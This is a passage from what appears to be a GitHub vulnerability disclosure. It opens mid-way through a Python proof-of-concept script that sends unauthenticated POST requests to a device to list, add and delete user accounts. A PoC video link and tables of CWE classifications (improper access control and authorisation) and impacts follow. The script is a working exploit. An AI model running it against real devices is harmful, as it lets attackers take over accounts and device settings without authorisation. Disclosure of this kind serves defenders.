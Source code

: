 ```python
            "TUNER1": 1,
            "TUNER2": 1,
            "AUDIO": 1
        }
    }
    response = requests.post(target, json=payload)
    print(response.json())

# Delete User
def delete_user():
    payload = {
        "USER": "admin",
        "DEL_USER": "tester"
    }
    response = requests.post(target, json=payload)
    print(response.json())

if __name__ == "__main__":
    print("[+] Listing Users...")
    list_users()
    print("[+] Adding User 'tester'...")
    add_user()
    print("[+] Listing Users After Addition...")
    list_users()
    print("[+] Deleting User 'tester'...")
    delete_user()
    print("[+] Listing Users After Deletion...")
    list_users()
```
---

## **PoC Video**  

https://github.com/user-attachments/assets/bd84bb46-9f99-42ef-ae4e-e625177c3bca

---

## Vulnerability Type Information

| Vulnerability Type         | CWE-ID                           |
|---------------------------|----------------------------------|
| Broken Access Control      | CWE-284 (Improper Access Control) |
| Improper Authorization     | CWE-285 (Improper Authorization)  |

---

## Impact Information

| Impact Type                  | Description                                                                 |
|-----------------------------|-----------------------------------------------------------------------------|
| **Privilege Escalation**      | Unauthenticated attackers can create administrative accounts.               |
| **Account Takeover**          | Attackers can list and delete existing accounts.                             |
| **Complete Device Compromise** | Attackers can control device settings and access sensitive information.      |

---